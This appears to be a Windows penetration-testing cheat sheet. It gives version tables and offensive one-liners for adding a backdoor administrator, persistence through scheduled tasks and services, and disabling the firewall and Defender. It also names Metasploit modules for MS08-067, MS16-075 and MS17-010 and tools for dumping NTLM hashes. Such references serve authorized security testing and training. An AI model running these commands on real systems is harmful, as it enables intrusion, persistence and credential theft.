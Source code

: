 === Windows

==== Version Numbers

[cols="1,3"]
|===
|NT 5.0  |2000
|NT 5.1  |XP 32bit
|NT 5.2  |XP 64bit, Server 2003, Server 2003 R2
|NT 6.0  |Vista, Server 2008
|NT 6.1  |7, Server 2008 R2
|NT 6.2  |8, Server 2012
|NT 6.3  |8.1, Server 2012 R2
|NT 10.0 |10, Server 2016, Server 2019
|===

==== Windows 10 Build Numbers

[cols="1,2,2", options="header"]
|===
|Version |Name                 |Build Number
|1507    |                     |10.0.10240
|1511    |November Update      |10.0.10586
|1607    |Anniversary Update   |10.0.14393
|1703    |Creators Update      |10.0.15063
|1709    |Fall Creators Update |10.0.16299
|1803    |April 2018 Update    |10.0.17134
|1809    |October 2018         |10.0.17763
|1903    |May 2019 Update      |10.0.18362
|1909    |November 2019 Update |10.0.18363
|2004    |May 2020 Update      |10.0.19041
|20H2    |October 2020 Update  |10.0.19042
|===


==== User Management

  net user brimstone password /add

Add user with the username `brimstone` and password `password`.

  net localgroup administrators brimstone /add

Add `brimstone` to the local administrators group.

  echo %computername%\%username%

Get current username on XP or when `whoami` fails.

==== Scheduled Tasks

  schtasks /create /tn task name /ru system /sc onlogon /tr backdoor.exe

Run task on user logon.

  schtasks /create /tn task name /ru system /sc onstart /tr backdoor.exe

Run task on system start.

  schtasks /create /tn task name /sc onidle /i 30 /tr backdoor.exe

Run task on user idle for 30 minutes.

<<<

==== Service Management

  sc query state=all

Show services.

  sc create backdoor binPath= "c:\backdoor.exe"

Create new service with `backdoor.exe`. Must include quotes.


==== Firewall

  netsh firewall set opmode mode=DISABLE

Disable on XP/2003

  netsh advfirewall set  currentprofile state off

Disable on 7 and later

  netsh advfirewall firewall add rule name="Allow Port 4444" protocol=TCP dir=out remoteport=4444 action=allow

Allow a port.

  netsh advfirewall firewall add rule name="IP Allow" dir=in interface=any action=allow remoteip=192.168.1.2/32

Allow a host.

  netsh advfirewall firewall add rule name="Program Allow" program="c:\backdoor.exe" protocol=tcp dir=in enable=yes action=allow

Allow a program.

<<<

==== Defender

  Set-MpPreference -DisableRealTimeMonitoring $true

Disable completely. Yields a ballon notification to logged on users.

  Add-MpPreference -ExclusionPath "C:\Temp"

Add excluded direectory.

  use post/windows/gather/enum_av_excluded

List off excluded directories from meterpreter session.

==== Find interesting things

  wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

wmic search unquoted paths

==== Exploits
===== MS08-067

[cols=">1,3"]
|===
|Affects           |XP, 2003
|Metasploit Module |exploit/windows/smb/ms08_067_netapi
|Type              |remote
|===

This is a vulnerability in SMB that invites `NT_AUTHORITY/SYSTEM` access.

===== MS16-075

[cols=">1,3"]
|===
|Affects           |Windows 7 on?
|Metasploit Module |exploit/windows/local/ms16_075_reflection_juicy
|Type              |local, privilege escalation
|===

Detection: Run `whoami /getprivs` and look for `SeImpersonate` or `SeAssignPrimaryToken`

===== MS17-010

[cols=">1,3"]
|===
|Affects           |Pretty much everything. XP through Windows 10
|Metasploit Module |exploit/windows/smb/ms17_010_psexec
|Type              |remote
|===

This is a vulnerability in SMB that invites `NT_AUTHORITY/SYSTEM` access.

==== NTLM Hashes

- `AAD3B435B51404EEAAD3B435B51404EE` is the empty LANMAN hash, don't try to crack it
- `31D6CFE0D16AE931B73C59D7E0C089C0` is the empty NT hash, don't try to crack it either

===== Local acquisition
- impacket's `hashdump`

===== Remote Acquisition
- impacket's `secretsdump.py`
- mimikatz (TODO?)


<<<
